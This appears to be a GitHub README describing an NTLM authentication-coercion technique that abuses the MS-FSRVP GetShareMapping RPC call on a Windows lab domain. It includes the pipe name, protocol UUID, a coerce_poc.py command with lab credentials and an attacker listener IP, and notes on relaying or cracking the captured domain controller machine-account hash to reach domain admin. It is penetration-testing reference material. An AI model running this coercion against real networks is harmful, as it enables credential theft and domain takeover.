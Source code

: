 # MS-FSRVP - Remote call to GetShareMapping (opnum 10)

## Summary

 - **Protocol**: [[MS-FSRVP]: File Server Remote VSS Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b)

 - **Protocol UUID**: a8e0653c-2744-4389-a61d-7373df8b2292

 - **Protocol version**: 1.0

 - **SMB Named pipe**: `\\pipe\FssagentRpc`

 - **Function name**: [`GetShareMapping`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/f663aa66-a1d1-4583-8f36-590410ebdfa8)

 - **Function operation number**: `10`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\\pipe\FssagentRpc` and bind to the desired [`MS-FSRVP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b) protocol (with uuid `a8e0653c-2744-4389-a61d-7373df8b2292` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-FSRVP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\\pipe\FssagentRpc` This pipe is connected to the protocol [[MS-FSRVP]: File Server Remote VSS Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b) and allows to call RPC functions of this protocol. We will then call the remote [`GetShareMapping`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/f663aa66-a1d1-4583-8f36-590410ebdfa8) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
GetShareMapping('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
DWORD GetShareMapping(
         [in] handle_t hBinding,
         [in] GUID ShadowCopyId,
         [in] GUID ShadowCopySetId,
         [in] [string] LPWSTR ShareName,
         [in] DWORD Level,
         [out] [switch_is(Level)] PFSSAGENT_SHARE_MAPPING ShareMapping);
```

## References

 - Documentation of protocol [MS-FSRVP]: File Server Remote VSS Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b

 - Documentation of function `GetShareMapping`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/f663aa66-a1d1-4583-8f36-590410ebdfa8
